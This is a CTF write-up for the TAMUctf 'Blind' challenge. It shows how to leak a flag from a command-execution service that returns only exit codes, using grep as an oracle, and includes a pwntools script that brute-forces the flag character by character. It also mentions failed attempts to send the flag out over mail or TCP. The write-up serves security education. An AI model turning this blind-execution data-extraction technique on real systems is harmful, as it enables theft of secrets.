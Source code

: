 # Blind

## Description

> `nc challenges.tamuctf.com 3424`

## Solution

By connecting to the resource, the program prints "Execute: " and we can enter text. Then depending on what text is entered, a number is given back. Some examples:

![Blind example](../images/blind.png)

Best guess is that the output is the error code sent by the command. [This page](https://shapeshed.com/unix-exit-codes/) gives some examples of error codes:
- `0`: success
- `1`: general errors
- `127`: command not found

Therefore as the challenge name suggests, we need to find the flag but without seeing the output of commands given, only their error codes. We have seen that `flag.txt` exists, so we now need to fetch its content.

First I have tried to send the flag via mail or on a TCP server, but without success (seems like all ports are closed except port 22). Plus we cannot install anything on the server.

Therefore I came up with a command which returns `0` if I get part of the flag, or `1` if I don't:

```bash
cat flag.txt | grep 'input'
```
We verify with:

```bash
cat flag.txt | grep 'input'
=> 1
cat flag.txt | grep 'gigem{'
=> 0
```

So this works! Now we just need to brute force the flag character by character. This Python script does the job:

```python
from pwn import *

sh = remote('challenges.tamuctf.com', 3424)

print(sh.recvuntil("Execute: "))

found = "gigem{"
while '}' not in found:
    for c in '.abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ}':
        sh.sendline("cat flag.txt | grep '" + found + c + "'")
        rcv = sh.recv()
        if rcv[0] == ord('0'):
            found = found + c
            print()
            print(found)
            break
        elif rcv[0] != ord('1'):
            print("Try again: {}".format(rcv))
            break
```

Flag: `gigem{r3v3r53_5h3ll5}`
